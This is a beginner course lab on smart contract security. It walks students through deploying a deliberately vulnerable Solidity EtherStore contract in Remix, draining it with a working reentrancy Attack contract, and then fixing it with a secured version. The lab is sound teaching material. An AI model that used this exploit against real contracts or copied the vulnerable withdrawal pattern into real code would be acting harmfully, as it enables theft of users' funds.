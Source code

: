 # Module 9 - Beginner Lab: Smart Contract Security

## Background
As with all software, there is a chance that a smart contract may be exploited. In the case of smart contracts, though, there is an especially high risk, since transactions are permanent and wallets are essentially anonymous. To prevent financial loss, it is a good idea to follow best practices for secure programming, such as the [checks-effects-interactions pattern][checks-effects-interactions].

## Meta Information
| Attribute | Explanation |
| - | - |
| Summary | This assignment goes over exploiting a bad practice in smart contract programming. |
| Topics | Smart contracts, security, risk of financial loss. |
| Audience | Appropriate for CS1 or a later course. |
| Difficulty | Beginner. |
| Strengths | This assignment makes students aware of a type of security issue, attack scenario, and a best practice when writing code for smart contracts. |
| Weaknesses | Effective secure programming requires the discipline of strict adherence to many, potentially unintuitive guidelines for which it is impractical to present the breadth of in a single lab. |
| Dependencies | Some programming knowledge and an internet-connected computer with a suitable browser for use of [the Remix IDE][Remix]. |
| Variants | There are many other vulnerabilities which could be the focus of this lab instead. |

## Assignment Instructions
1. First, we begin by creating a contract with a simple purpose, such as temporarily holding Ether for the owner(s). Click the plus icon ![plus-icon.png](screenshots/plus-icon.png) in the upper left corner of [Remix][Remix] to create a new document and name it `EtherStore.sol`. Then copy and paste the following code into it:  
    [_EtherStore.sol_][EtherStore.sol]
    ```solidity
    contract EtherStore {

        uint256 public withdrawalLimit = 1 ether;
        mapping(address => uint256) public lastWithdrawTime;
        mapping(address => uint256) public balances;

        function depositFunds() public payable {
            balances[msg.sender] += msg.value;
        }

        function withdrawFunds (uint256 _weiToWithdraw) public {
            require(balances[msg.sender] >= _weiToWithdraw);
            // limit the withdrawal
            require(_weiToWithdraw <= withdrawalLimit);
            // limit the time allowed to withdraw
            require(now >= lastWithdrawTime[msg.sender] + 1 weeks);
            require(msg.sender.call.value(_weiToWithdraw)());
            balances[msg.sender] -= _weiToWithdraw;
            lastWithdrawTime[msg.sender] = now;
        }
     }
    ```
    ![create-new-file](screenshots/create-new-file.png)  
    ![etherstore-created.png](screenshots/etherstore-created.png)
2. Click on the plugin icon ![plug-icon.png](screenshots/plug-icon.png) in the left-most pane of Remix.  
    ![left-icon-pane.png](screenshots/left-icon-pane.png)
3. Activate the `Deploy & Run Transactions` and `Solidity Compiler` plugins.
    ![plugins-to-activate.png](screenshots/plugins-to-activate.png)  
    You should see two new icons in the leftmost pane: one, the solidity compiler ![solidity-compiler-icon.png](screenshots/solidity-compiler-icon.png), looks like an "s", and the other, deploy and run ![deploy-and-run-icon.png](screenshots/deploy-and-run-icon.png), is the Ethereum symbol with an arrow to the right.  
    ![activated-plugin-icons.png](screenshots/activated-plugin-icons.png)
4. Click the solidity compiler plugin icon ![solidity-compiler-icon.png](screenshots/solidity-compiler-icon.png).
5. Select compiler `0.4.26+commit.4563c3fc`.  
    ![compiler-version.png](screenshots/compiler-version.png)  
6. Click the `Compile EtherStore.sol` button ![compile-etherstore-button.png](screenshots/compile-etherstore-button.png) and wait for compilation to complete. For the purposes of this lab, you can safely ignore all (orange) warnings.  
    ![compile-etherstore.png](screenshots/compile-etherstore.png)  
7. Click the deploy-and-run plugin icon ![deploy-and-run-icon.png](screenshots/deploy-and-run-icon.png).
8. Click the orange `Deploy` button ![orange-deploy-button.png](screenshots/orange-deploy-button.png).
9. A smart contract, **EtherStore** will be deployed to the blockchain. Click the arrow on the left of it to reveal its functions.  
    ![etherstore-deployed.png](screenshots/etherstore-deployed.png)  
    ![etherstore-functions.png](screenshots/etherstore-functions.png)
10. In the value box, type `10`, and in the dropdown box next to it, select `ether`.  
    ![value-box-with-ether.png](screenshots/value-box-with-ether.png)
11. Click the `depositFunds` function button ![deposit-funds-button.png](screenshots/deposit-funds-button.png) under the `EtherStore` deployed contract.  
    ![etherstore-functions.png](screenshots/etherstore-functions.png)
12. Notice that the selected account has been debited `10 ether` (as well as some gas fees for contract deployment and the deposit transaction), leaving `89.999... ether` from the original `100 ether`.  
    ![less-10-ether.png](screenshots/less-10-ether.png)
13. We then create an other contract to attack `EtherStore.sol`. Create a new contract named `Attack.sol`, and copy/paste the following code:  
    [_Attack.sol_][Attack.sol]
    ```solidity
    import "./EtherStore.sol";

    contract Attack {
      EtherStore public etherStore;

      // intialize the etherStore variable with the contract address
      constructor(address _etherStoreAddress) {
          etherStore = EtherStore(_etherStoreAddress);
      }

      function attackEtherStore() public payable {
          // attack to the nearest ether
          require(msg.value >= 1 ether);
          // send eth to the depositFunds() function
          etherStore.depositFunds.value(1 ether)();
          // start the magic
          etherStore.withdrawFunds(1 ether);
      }

      function collectEther() public {
          msg.sender.transfer(this.balance);
      }

      // fallback function - where the magic happens
      function () payable {
          if (etherStore.balance > 1 ether) {
              etherStore.withdrawFunds(1 ether);
          }
      }
    }
    ```
    ![attack-created.png](screenshots/attack-created.png)  
14. In `Attack.sol`, observe that whenever this contract's `attackEtherStore` function is called with a transaction amount >= 1 ether, it then calls the `EtherStore` contract’s `depositFunds` function, followed immediately by `EtherStore`'s `withdrawFunds` function. The `EtherStore` contract verifies the balance, owner, withdrawal amount, and time since last withdrawal are all okay and proceeds to pay the attacking contract. So far, everything seems okay; however, once the `EtherStore` contract pays the `Attack` contract, execution of the code flows into the `Attack` contract's fallback function (the function called when a contract is paid any amount). Inside the `Attack` contract's fallback function, `EtherStore`'s balance is checked, and provided there is ether remaining to steal, the `withdrawFunds` function is called again. The `Attack` contract has, in effect, caused execution to "reenter" the `EtherStore` contract's `withdrawFunds` function before it could update the values it checks to ensure everything is okay before paying out.
15. Click the deploy-and-run plugin icon ![deploy-and-run-icon.png](screenshots/deploy-and-run-icon.png).
16. Click the clipboard icon ![clipboard-icon.png](screenshots/clipboard-icon.png) to the right of the deployed `EtherStore` contract to copy its address; we will need it to tell the `Attack` contract what to attack.  
    ![clipboard-surroundings.png](screenshots/clipboard-surroundings.png)
17. Choose a new account with 100 ether from the dropdown to act as the attacking account.
18. Repeat the previous compilation and deployment steps for the `Attack` contract, but just prior to deploying, we'll need to supply the `EtherStore` contract's address.
19. Paste the previously-copied `EtherStore` address into the box just to the right of the orange `Deploy` button.  
    ![address-pasted.png](screenshots/address-pasted.png)  
20. Deploy the `Attack` contract.
21. Enter 1 ether in the value box where we previously entered 10 ether.
22. Click the arrow to reveal the `Attack` contract's functions, and then click the `attackEtherStore` function button.
23. Now click the `collectEther` function button.
24. Observe that the account has been credited 10 ether (bringing it to 108.999...), when it should have only been possible for the deposited 1 ether to be withdrawn.
25. We can prevent an attack like this in a few different ways. One way is to use the built-in `transfer` function, which only sends 2300 gas, insufficient to allow the current execution to call the `withdrawFunds` function again. An other way is to use what's known as the [checks-effects-interactions pattern][checks-effects-interactions], which would have us move lines 18 and 19 to before line 17, so that updates to checked variables are done before interaction with an outside entity. One more way we could prevent this attack is with an additional state variable, called a mutex or mutual exclusion variable, which acts as a lock and prevents further execution from occurring until the current function exits (and resets the mutex). Including all three methods (though any one would work), we have a more-secure `EtherStore`, which we'll call `SecuredEtherStore`:  
    [_SecuredEtherStore.sol_][SecuredEtherStore.sol]
    ```solidity
    contract SecuredEtherStore {

        // initialize the mutex
        bool reEntrancyMutex = false;
        uint256 public withdrawalLimit = 1 ether;
        mapping(address => uint256) public lastWithdrawTime;
        mapping(address => uint256) public balances;

        function depositFunds() public payable {
            balances[msg.sender] += msg.value;
        }

        function withdrawFunds (uint256 _weiToWithdraw) public {
            require(!reEntrancyMutex);
            require(balances[msg.sender] >= _weiToWithdraw);
            // limit the withdrawal
            require(_weiToWithdraw <= withdrawalLimit);
            // limit the time allowed to withdraw
            require(now >= lastWithdrawTime[msg.sender] + 1 weeks);
            balances[msg.sender] -= _weiToWithdraw;
            lastWithdrawTime[msg.sender] = now;
            // set the reEntrancy mutex before the external call
            reEntrancyMutex = true;
            msg.sender.transfer(_weiToWithdraw);
            // release the mutex after the external call
            reEntrancyMutex = false;
        }
     }
    ```
26. Repeating the procedures above but using the new `SecuredEtherStore` contract will result in the attack failing; give it a try!

## Credits
Dr. Debasis Bhattacharya  
Mario Canul  
Saxon Knight  
https://github.com/ethereumbook/ethereumbook  

[Remix]: https://remix.ethereum.org/
[EtherStore.sol]: EtherStore.sol
[Attack.sol]: Attack.sol
[SecuredEtherStore.sol]: SecuredEtherStore.sol
[checks-effects-interactions]: https://solidity.readthedocs.io/en/latest/security-considerations.html#use-the-checks-effects-interactions-pattern
